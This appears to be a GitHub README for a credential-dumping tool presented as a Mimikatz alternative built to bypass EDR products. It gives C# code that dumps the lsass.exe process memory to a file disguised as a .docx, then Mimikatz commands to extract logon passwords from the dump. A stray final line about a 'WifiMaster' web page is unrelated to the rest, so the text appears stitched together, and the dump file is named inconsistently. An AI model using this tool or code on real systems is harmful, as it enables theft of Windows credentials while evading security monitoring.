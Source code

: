 # Lsass-Dump-PS
The LsassDumper is a Mimikatz alternative tool used for credential dumping created to bypass EDR products.



# How to Use

* step 1: Edit the script: Chanage the path to the file (file parameter)
```C#
 public static void RunMe(int procId)
        {
            string dumpFileName = "C:\\Users\\Username\\Desktop\\dumpfile.docx";
            FileStream file = new FileStream(dumpFileName, FileMode.Create);
            IntPtr hProcess = OpenProcess((uint)0x001F0FFF, true, procId);
            bool res;
            MINIDUMP_EXCEPTION_INFORMATION info = new MINIDUMP_EXCEPTION_INFORMATION();
            res = MiniDumpWriteDump(hProcess, (uint)procId, file.SafeFileHandle.DangerousGetHandle(), 0002, ref info, IntPtr.Zero, IntPtr.Zero);
            if(res){
                Console.WriteLine("Created By Liav Gutman AKA PT-MasterMind :)");
            
            }else{
                Console.WriteLine("Something went wrong please try again");
            
            
            }
 
```
* step 2: Configre the `lsass.exe` process id.
```
 [GoodMod.Dump]::RunMe(16048)
```
* step 3: Load the dump file (foo.docx) to [Mimikatz](https://github.com/gentilkiwi/mimikatz) and done!
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::minidump liav.docx

mimikatz # sekurlsa::logonpasswords
 
```


If you want to choose another web page go to: /opt/WifiMaster/program_files/server and then put there the page you want to and name it " index.html "
